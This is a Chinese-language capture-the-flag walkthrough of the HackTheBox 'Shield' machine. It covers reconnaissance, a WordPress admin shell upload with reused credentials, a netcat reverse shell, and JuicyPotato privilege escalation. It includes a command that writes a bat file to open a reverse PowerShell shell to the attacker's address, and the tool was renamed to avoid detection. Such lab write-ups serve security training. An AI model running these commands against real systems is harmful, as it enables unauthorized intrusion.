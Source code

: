 ```yaml
---
title: HackTheBox-Shield
date: 2021-08-18 17:05:21
categories:
- 渗透测试
tags:
- HackTheBox
---
```


## 实验环境

![](https://i.loli.net/2021/08/18/JNCVaw9LHIbsg3t.png)

## 信息收集

**端口扫描**：

```
namp -A -T4 10.10.10.29
```

发现80、3306两个端口，IIS 10.0和MySQL，服务器操作系统为Windows

![](https://i.loli.net/2021/08/18/HW1B7cVIfSkOhjw.png)

`--script vuln`参数扫描常见漏洞 ，发现wordpress目录，已经扫到了登录地址

![](https://i.loli.net/2021/08/18/sWYHtKiGoMcAaBZ.png)

**目录扫描**，也发现wordpress目录

![](https://i.loli.net/2021/08/18/BjKiP1malH3YsuM.png)

**Wpscan分析**，可以看到wordpress的版本

```
wpscan --url http://10.10.10.29/wordpress
```

![](https://i.loli.net/2021/08/18/o7IeKRkylwbXUn9.png)

## 实验过程

用上一台靶机的账号密码可以登录后台`admin`:`P@s5w0rd!`

![](https://i.loli.net/2021/08/18/h7Av2EPBGHcOQus.png)

知道wordpress admin用户密码的情况下，可以使用msf的wp_admin_shell_upload模块来攻击，使用模块

![](https://i.loli.net/2021/08/18/DvtE9xOQMcVGirR.png)

设置参数

![](https://i.loli.net/2021/08/18/HdxmVPoLYhGXpQi.png)

执行exploit命令后，获得shell

![](https://i.loli.net/2021/08/18/IEwiRplZgf9TKaG.png)

在shell中执行命令

![](https://i.loli.net/2021/08/18/srdiD4wGRj6Y28b.png)

查看wp-config.php，发现敏感信息

![](https://i.loli.net/2021/08/18/VhwTivWuomxFJ6P.png)

**反弹shell**：

在kali终端输入nc -nlvp 1234，用来在本机启动一个监听端口

![](https://i.loli.net/2021/08/18/vxTqUfBDVaeGoh9.png)

在meterpreter中执行nc命令来连接本机监听端口，使用netcat获得windows shell

![](https://i.loli.net/2021/08/18/1pl42ztmeAabDH6.png)

![](https://i.loli.net/2021/08/18/3NOZ5os7CcgDY6i.png)

查看当前用户

![](https://i.loli.net/2021/08/18/iBAZEls5vNMDaCV.png)

**提权:**

使用juicy-potato提权，将JuicyPotato.exe重命成js.exe，防止被对方检测到

将js.exe上传到对方机器

![](https://i.loli.net/2021/08/18/DnehVMrIUajwFxO.png)

在windows shell中生成一个bat脚本：

```
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.107 1111 > shell.bat
```

![](https://i.loli.net/2021/08/18/fZpgGSrAEs9dial.png)

在本机使用nc创建一个监听端口，用来接收提权后的windows shell

![](https://i.loli.net/2021/08/18/bWQDZ2VAGyPEIUl.png)

运行juicy-potato提权：

```
js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```

![](https://i.loli.net/2021/08/18/4oZuXGiTzAqLfr9.png)

获得system权限的windows shell

![](https://i.loli.net/2021/08/18/8kDL9GwTJj2mexP.png)

在管理员账户的桌面目录下找到flag

![](https://i.loli.net/2021/08/18/MVPFeo2z4nisyDp.png)


